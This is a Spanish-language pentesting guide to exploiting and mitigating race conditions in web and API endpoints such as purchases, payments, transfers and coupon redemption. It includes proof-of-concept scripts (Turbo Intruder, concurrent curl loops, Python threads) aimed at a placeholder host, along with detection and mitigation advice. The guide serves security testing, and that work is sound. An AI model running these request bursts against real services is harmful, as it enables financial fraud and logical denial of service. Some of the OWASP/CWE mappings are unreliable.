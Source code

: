 # Guía de Condiciones de Carrera

## Resumen

**Qué es:** Una condición de carrera ocurre cuando distintos procesos, peticiones o hilos acceden y modifican recursos compartidos concurrentemente, generando resultados inesperados e inseguros.
**Por qué importa:** El aprovechamiento de condiciones de carrera puede permitir bypass de controles, duplicidad de transacciones, modificaciones no autorizadas y ataques de escalado/crash en aplicaciones web/APIs.
**Cuándo aplicarlo:** Pentesting en endpoints críticos de negocio, pagos, compras, transferencias y modificaciones de estado en aplicaciones concurrentes.

---

## Contexto

**Supuestos:**

- Aplicaciones web/API que permiten múltiples operaciones concurrentes (compra, transferencia, registro, actualización de estado, etc.).
- Capacidades para lanzar peticiones en paralelo (scripts, herramientas, extensiones o proxies).
- Acceso al endpoint vía HTTP(s), gRPC o websockets.
- Herramientas: Burp Suite (Turbo Intruder), ffuf, curl en bash scripting, OWASP ZAP.

**Límites:**

- No cubre condiciones de carrera a bajo nivel (kernel, threading interno).
- Enfocado en análisis black/grey box, sin modificar el código fuente original.

---

## Metodología

1. **Reconocimiento del endpoint crítico:**
   - Identifica operaciones sensibles (pagos, transferencias, cambio de contraseña, compra, registro único).
2. **Verificación de control de concurrencia:**
   - Revisa si hay lock, semáforos o protección declarada en la lógica del backend.
3. **Preparación del ataque:**
   - Diseña payloads idénticos (o variantes mínimas) para disparar requests concurrentes.
   - Configura la herramienta para lanzar ráfagas de peticiones (paralelismo máximo posible).
4. **Ejecución de pruebas:**
   - Lanza todas las peticiones en paralelo (con Turbo Intruder, threads Python, bash loops).
   - Monitorea respuestas: duplicidad de transacciones, resultados incoherentes, errores o bloqueos inesperados.
5. **Recopilación de evidencia y análisis:**
   - Comparar estados antes y después (número de recursos creados/modificados, logs, saldos, asignaciones, confirmaciones).

**Checklist de verificación:**

- Protecciones backend contra concurrencia (locks, transacciones atómicas, control de repetidos).
- Registros únicos manteniendo idempotencia.
- Lógica de negocio consistente sin duplicidades inesperadas.
- Respuestas HTTP consistentes frente a ráfagas.
- No hay errores 500/502/504 ni inconsistencias de estado.

---

## Pruebas Manuales

**1. Ataque con Turbo Intruder (Burp Suite):**

```python
requests = [
  Request("POST /compra HTTP/1.1\nHost: victima.com\n...\n\nitemId=1&cantidad=1"),
] * 50
```

- Ejecutar todos en paralelo y revisar si se compran más ítems de lo permitido.

**2. Prueba con cURL + Bash (registro duplicado):**

```bash
for i in {1..20}; do
  curl -X POST https://victima.com/api/register -d '{ "usuario": "test1" }' &
done
wait
```

- Comprobar si se registran múltiples usuarios idénticos.

**3. Race Condition en transferencia de saldo:**

- Lanzar varias peticiones de `POST /transfer` en simultáneo desde una cuenta con saldo límite.
- Analizar si el saldo se vuelve negativo o se transfiere más de lo permitido.

**4. Doble uso de token/cupón:**

- Enviar simultáneamente peticiones de canje de un cupón de un solo uso.
- Revisar si el sistema permite múltiple canje.

---

## PoC Automatizada

**Turbo Intruder:**

```python
from turbo_intruder import Request, Engine

def queue_requests(target, engine):
    for _ in range(100):
        engine.queue(Request('POST /api/pay HTTP/1.1\nHost: victima.com\nContent-Type: application/json\n\n{"monto":100,"cuenta":"abc"}'))

def handle_response(req, interesting):
    if 'Success' in req.response.text:
        interesting.append(req)
```

**Python con threads:**

```python
import requests, threading

def race():
    requests.post('https://victima.com/api/pay', json={"monto":100,"cuenta":"abc"})

threads = [threading.Thread(target=race) for _ in range(50)]
for t in threads: t.start()
for t in threads: t.join()
```

---

## Explotación y Automatización

- **Burst buy:** Compra masiva de un recurso limitado en milisegundos.
- **Duplicate payment:** Múltiples pagos acreditados.
- **Multi-register:** Duplicados de usuarios/referencias únicas.
- **Token/Coupon abuse:** Validaciones que permiten varios usos simultáneos.

---

## Impacto

- **Fraude financiero:** Múltiples pagos/transferencias/deducciones con un solo saldo.
- **DoS lógico:** Saturación de recursos, creación masiva de objetos.
- **Manipulación de privilegios/accesos:** Registro de información duplicada, escalado por repetición.
- **Pérdida de integridad:** Inconsistencia en el estado de la base de datos.

**OWASP/CWE:** API3 Excessive Data Exposure, API7 Security Misconfig, CWE-362 Race Condition, CWE-352 CSRF.

---

## Detección

- Logs de múltiples operaciones en el mismo recurso/cuenta en milisegundos.
- Alertas de registros concurrentes, duplicidades.
- Errores de estado, saldo negativo o confirmaciones incoherentes.
- Trazas de requests simultáneas desde la misma IP/cuenta.

---

## Mitigación

- Implementar locks y transacciones atómicas en los endpoints críticos.
- Uso de campos únicos y validaciones a nivel de base de datos y API.
- Respuestas únicas ante duplicidad y control de idempotencia.
- Rate limiting en endpoints sensibles.
- Pruebas post-fix con ráfagas y automatización.

---

## Errores Comunes

- Falta de protección concurrente a nivel aplicación y base de datos.
- Suponer que el frontend impide duplicidad.
- Omitir validación final en lógica backend.
- No revisar logs en milisegundos de operaciones críticas.

---

## Reporte

**Título:** Condición de carrera en endpoint permite duplicidad y abuso de lógica crítica
**Impacto:** Fraude, DoS lógico, exfiltración y inconsistencias de negocio
**Pasos:**

1. Disparar múltiples peticiones concurrentes en operación crítica
2. Confirmar duplicidad/inconsistencia en respuestas y logs
3. Evidencia de registros/pagos/acciones repetidas
   **Mitigación:** Locks, validaciones únicas, atomicidad y monitoreo de concurrencia
